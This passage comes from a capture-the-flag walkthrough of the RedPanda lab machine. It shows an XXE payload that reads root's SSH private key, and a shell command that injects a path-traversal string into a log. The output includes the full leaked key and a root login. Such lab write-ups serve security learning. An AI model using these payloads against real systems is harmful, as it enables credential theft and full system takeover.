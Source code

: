 2. We create our **pwn_creds.xml** and we will use **XML Entity Expansion (XXE)** to inject a payload that can print the private ssh credientials of root.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
  <author>pwn</author>
  <image>
    <uri>/../../../../../../tmp/jpg_exploit.jpg</uri>
    <views>1</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>1</totalviews>
</credits>
```

3. Then, Send the below string to **/opt/panda_search/redpanda.log**.
```bash
echo "222||a||a||/../../../../../../tmp/jpg_exploit.jpg" > /opt/panda_search/redpanda.log
```

Now, It is time to get the SSH key of the root:

1. View the **/tmp/jpg_creds.xml** to see the root's private SSH key in it.
```bash
woodenk@redpanda:/tmp$ cat /tmp/jpg_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>pwn</author>
  <image>
    <uri>/../../../../../../tmp/jpg_exploit.jpg</uri>
    <views>1</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
  <totalviews>1</totalviews>
</credits>
```

2. Store it in any text file and change its permissions.
```bash
$ chmod 600 ssh_key.txt
```

3. Connect to the victim's machine using SSH with root privilages.
```bash
$ ssh -i ssh_key.txt root@10.10.11.170
root@redpanda:~# id
uid=0(root) gid=0(root) groups=0(root)
root@redpanda:~# cat root.txt 
0c9a981760e9e26XXXXXXXXXXXXXX
```

_Pwned_
![pwned](post/RedPanda_HTB/imgs/RedPanda/15.png)

